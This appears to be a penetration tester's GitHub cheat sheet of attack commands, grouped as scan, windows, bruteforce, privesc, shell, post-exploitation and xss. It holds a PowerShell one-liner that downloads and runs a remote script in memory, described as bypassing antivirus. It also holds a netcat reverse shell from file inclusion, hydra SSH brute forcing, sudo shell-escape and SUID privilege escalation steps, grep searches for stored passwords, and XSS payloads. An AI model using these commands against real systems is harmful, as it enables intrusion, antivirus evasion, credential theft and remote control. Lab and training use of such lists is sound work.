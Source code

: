 # tools
few scripts and useful commands

# scan
<ul>
<li>netdiscover -r 192.168.10.130/24</li>
<li>nmap -A -sS 192.168.10.135</li>
<li>nikto -h http://192.168.10.135/site</li>
<li>wapiti http://192.168.10.134/site</li>
<li>wordpress : wpscan --url http://192.168.10.135/site</li>
</ul>

# windows
<p>run ps1 script in memory (bypass antivirus) :</p>
<ul>
<li>powershell IEX (New-Object Net.WebClient).DownloadString('http://10.133.127.172:85/test.ps1')</li>
</ul>

# bruteforce
<ul>
<li>hydra -l user -P wordlist.txt 192.168.10.130 ssh</li>
</ul>
<p>generate wordlist from a password with 2 missing characters :</p>
<ul>
<li>crunch 7 7 -t passwo^% >> wordlist.txt</li>
</ul>

# privesc

<ul>
<li>https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py</li>
<li>find / -perm -u=s -type f 2>/dev/null</li>
<li>find / -perm +6000 2> /dev/null</li>
<li>https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/</li>
<li> Get a better shell if msf payload is weak (ex: python/reverse_shell) : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet </li>
<li> List rights : sudo -l </li>
<li> Example with /bin/ed : sudo /bin/ed => !/bin/bash => id </li>
<li>https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs</li>
<li>ps -ax</li>
</ul>

# shell

<p>LFI</p>
<ul>
<li>/bin/nc 192.168.91.1 1234 -e /bin/sh /bin</li>
<li> https://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref </li>
</ul>

# post-exploitation
<ul>
<li> grep -air --include=*.txt ou .json ou .sh password ou mot de passe </li>
<li> grep -air --include=*.txt "mot de passe" </li>
<li> grep -air --include=*pass* ""</li>
<li>https://matthew-brett.github.io/curious-git/reading_git_objects.html</li>
</ul>

# xss
<ul>
<li> " style="background-image: url(http://blabla.com) </li>
<li> <object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object> </li>
<li> <object data=http://blabla.com></object> </li>
</ul>
